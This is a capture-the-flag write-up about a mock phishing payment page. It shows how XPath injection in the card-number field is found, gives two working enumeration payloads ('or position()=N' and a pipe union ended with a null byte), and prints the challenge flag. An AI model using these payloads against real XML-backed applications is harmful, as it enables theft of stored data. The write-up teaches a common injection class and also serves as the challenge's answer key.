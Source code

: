 # Fraudulent e-mail

Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our
customers have come across this scam.

Identifify all card numbers entered into the fraudulent webpage (we have to report incident and its details to
CSIRT-TCC).

Download [fraudulent e-mail](fraudulent_e-mail.zip) (MD5 checksum `94c7696bed436cd63a490de4008d2022`).

May the Packet be with you!

---

The email contains a link
to http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8

Visiting the link brings us to a phishing website. I entered random data.

![img.png](img.png)

There is a client side validation which prevents you from sending invalid data so either disable JS or use some
HTTP client or proxy.

I started to fuzz the inputs and got lucky with `card-number=1111111111111111aaa`.
Server responded with:

```
<b>Warning</b>:  SimpleXMLElement::xpath(): Invalid predicate in <b>/var/www/html/index.php</b> on line <b>82</b><br />
```

Looks like an **XPath injection** vulnerability.

Let's try some interesting predicates like `card-number=*`:

```
This card 4556-1329-8889-9614 is broken.
```

Okay, that's promising. The asterisk got evaluated. Now we just need to enumerate all the cards.

My guess is that the database might look something similar to this:

```xml

<cards>
    <card number="8888999977771111" holder-name="John" cvv="889"/>
    <card number="8888999977779566" holder-name="Karl" cvv="859"/>
</cards>
```

And the XPath query something like this:

```
/cards/card[@number= ${args.NUMBER} ]
```

I found two different payloads how to enumerate the cards:

- `a or position()=5` - using `position()` function
    - full query `/cards/card[@number=a or position()=5]`
- `a] | /*/*[5]NULL_BYTE` - using pipe (`|`) operator combine expressions and terminating the payload with `x00`
    - full query `/cards/card[@number=a] | /*/*[5]NULL_BYTE]`

The trick is to keep enumerating the cards until you find the flag. Some cards have missing
numbers so just don't stop and keep enumerating. The correct position is `128`:

```html

<div class="alert alert-danger" role="alert">
    <p>This card <strong>FLAG{0BF0-RREd-vAK3-1Ayi}</strong> is broken.</p>
    <p>Please enter <strong>your another card number</strong>!</p>
</div>
```
